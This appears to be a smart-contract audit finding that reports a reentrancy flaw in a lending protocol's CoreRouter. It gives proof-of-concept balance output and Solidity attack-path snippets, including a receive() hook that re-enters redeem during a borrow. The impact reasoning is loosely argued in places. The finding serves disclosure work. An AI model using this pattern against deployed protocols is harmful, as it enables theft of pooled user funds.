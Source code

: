 # Impact

From the PoC execution:

```
Initial borrow balance: 0
Final balance after attack: 50000000000000000000 (50 ETH)
Extra tokens obtained: 50000000000000000000 
Final borrowed amount: 50000000000000000000
Final collateral: 75000000000000000000
```

The attacker:

1. Supplied 100 ETH collateral
2. Borrowed 50 ETH
3. Through reentrancy, maintained 75 ETH collateral instead of it being properly reduced
4. Effectively stole 50 ETH while keeping most collateral

In this case : 

1. Collateral Retention: Attacker maintains 75% (75 ETH) of collateral while only having right to 50% after borrowing
2. Protocol Insolvency: Each successful attack drains liquidity without proper collateral reduction
3. State Inconsistency: Borrowed amounts don't match collateral ratios in protocol accounting


# Attack Path :

1.  Attacker supplies significant collateral:

``` solidity
uint256 collateralAmount = 100e18;
coreRouter.supply(collateralAmount, token);
```

2. Initiates borrow with valid collateral ratio:

``` solidity
uint256 borrowAmount = 50e18; // 50% LTV
attacker.borrowAttack(lToken, borrowAmount, token);

```
3. During borrow's token transfer, reenters through redeem:

``` solidity
receive() external payable {
    if (attackCount < 1) {
        attackCount++;
        CoreRouter(coreRouter).redeem(amount, payable(lToken));
    }
}

```
4. Redeem executes before borrow's state updates, allowing collateral manipulation
